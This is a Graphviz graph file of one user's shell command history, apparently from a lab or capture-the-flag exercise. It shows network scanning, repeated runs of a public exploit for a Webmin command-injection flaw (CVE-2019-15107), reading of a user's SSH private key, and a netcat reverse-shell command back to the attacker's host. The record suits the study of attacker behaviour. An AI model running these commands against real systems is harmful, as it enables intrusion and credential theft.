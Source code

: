 // creating graph for user: 85
digraph {
	node [shape=box]
	0 [label="ls U"]
	1 [label="cat ssh2john.py U"]
	2 [label="clear U"]
	3 [label="ls U"]
	4 [label="nmap U"]
	5 [label="ifconfig U"]
	6 [label="nmap 192.168.128.0 A0 "]
	7 [label="nmap 192.168.128.0/24 A0 "]
	8 [label="ifconfig U"]
	9 [label="nmap 10.1.135.0/24 A0 "]
	10 [label="nmap 10.1.135.0/ A0 "]
	11 [label="nmap 10.1.135.0/16 A0 "]
	12 [label="ping 172.18.1.5 U"]
	13 [label="nmap 172.18.1.5 A0 "]
	14 [label="nmap -sV 172.18.1.5 A0 "]
	15 [label="curl http://172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 U"]
	16 [label="curl http://172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 U"]
	17 [label="git clone https://github.com/jas502n/CVE-2019-15107 U"]
	18 [label="ls U"]
	19 [label="cd CVE-2019-15107/ U"]
	20 [label="ls U"]
	21 [label="python CVE_2019_15107.py U"]
	22 [label="cat README.md U"]
	23 [label="python CVE_2019_15107.py https://172.18.1.5:10000 U"]
	24 [label="python CVE_2019_15107.py https://172.18.1.5:10000 id U"]
	25 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls U"]
	26 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd U"]
	27 [label="ls /root U"]
	28 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root U"]
	29 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ U"]
	30 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/; pwd U"]
	31 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; pwd U"]
	32 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls U"]
	33 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls U"]
	34 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls -al U"]
	35 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/; U"]
	36 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ pwd; U"]
	37 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls -al /root/; U"]
	38 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; ls'; U"]
	39 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; ls -al'; U"]
	40 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; pwd'; U"]
	41 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'ls'; U"]
	42 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'pwd'; U"]
	43 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'pwd' U"]
	44 [label="python CVE_2019_15107.py http://172.18.1.5:10000 /bin/bash -c 'echo anal' U"]
	45 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd U"]
	46 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root U"]
	47 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ & ls U"]
	48 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ U"]
	49 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ & echo hello U"]
	50 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ & echo hello' U"]
	51 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && echo hello' U"]
	52 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && pwd' U"]
	53 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ && pwd U"]
	54 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cat /root/flag U"]
	55 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd U"]
	56 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ U"]
	57 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd U"]
	58 [label="python CVE_2019_15107.py http://172.18.1.5:10000 touch file U"]
	59 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ > file U"]
	60 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cat file U"]
	61 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls U"]
	62 [label="ls U"]
	63 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd U"]
	64 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' U"]
	65 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /root/WARNING-READ-ME.txt' U"]
	66 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find *.txt' U"]
	67 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && pwd' U"]
	68 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/; pwd' U"]
	69 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root; pwd' U"]
	70 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /' U"]
	71 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' U"]
	72 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/alive' U"]
	73 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/alice' U"]
	74 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/bob' U"]
	75 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/eve' U"]
	76 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/.ssh' U"]
	77 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa' U"]
	78 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/.ssh' U"]
	79 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa.pub' U"]
	80 [label="ls U"]
	81 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' U"]
	82 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/debian' U"]
	83 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian' U"]
	84 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian/.ansible' U"]
	85 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian/.ansible/tmp' U"]
	86 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /' U"]
	87 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /root' U"]
	88 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find -L / *.txt' U"]
	89 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find -L / -name *.txt' U"]
	90 [label="ls U"]
	91 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' U"]
	92 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /' U"]
	93 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home' U"]
	94 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' U"]
	95 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' U"]
	96 [label="ping 172.18.1.5 U"]
	97 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'pwd' U"]
	98 [label="nc -l 8080 U"]
	99 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' U"]
	100 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' U"]
	101 [label="ls U"]
	102 [label="cd CVE-2019-15107/ U"]
	103 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' U"]
	104 [label="ls U"]
	105 [label="cd CVE-2019-15107/ U"]
	106 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' U"]
	107 [label="aaaaaaaaaaa U"]
	108 [label="ive had enough U"]
	109 [label="help U"]
	110 [label="please U"]
	111 [label="i beg you U"]
	112 [label="to je tak na picu lmao U"]
	113 [label="cd .. U"]
	114 [label="ls U"]
	115 [label="python ssh2john.py U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	rankdir=LR
}
